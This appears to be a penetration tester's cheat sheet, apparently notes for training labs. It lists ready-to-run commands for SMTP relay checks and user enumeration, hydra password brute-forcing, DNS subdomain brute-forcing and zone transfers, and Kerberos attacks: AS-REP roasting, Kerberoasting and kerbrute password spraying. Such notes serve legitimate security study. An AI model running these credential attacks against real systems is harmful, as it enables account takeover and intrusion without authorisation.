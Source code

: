 ```bash
nmap -p 25 --script smtp-open-relay 10.129.133.224 -v
smtp-user-enum -M EXPN -U users.txt -t <machine_ip> -vv
hydra -l user@domaine.local -P /usr/share/wordlists/rockyou.txt smtp://10.129.103.36 -f
```

```bash
-M : EXPN / RCPT / VRFY
```

# DNS (53)

```bash
dnsenum --enum inlanefreight.com -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -r
dig any @w<machine_ip> inlanefreight.com
```

## DNS Zone transfer

```bash
dig axfr @<DNS_IP>
dig axfr @<DNS_IP> <DOMAIN>
```

# Kerberos (88)

## ASREProast

```bash
impacket-GetNPUsers -dc-ip <machine_ip> domain.local/ -usersfile ~/user.txt -format hashcat -outputfile hash.txt
impacket-GetNPUsers domain/user:password -request -format hashcat -outputfile hash.txt
```

## Kerberoast

```bash
impacket-GetUserSPNs domain.local/svc_tgs:pasword123 -dc-ip <machine_ip>  -request
```

Si problème d'horloge (trop grande différence entre notre machine et la cible)

```bash
sudo ntpdate 10.10.11.41
```
## Kerbrute

```bash
kerbrute userenum -d test.local usernames.txt --dc test.com
kerbrute bruteuser -d test.local passwords.txt john
kerbrute passwordspray -d test.local domain_users.txt password123
```
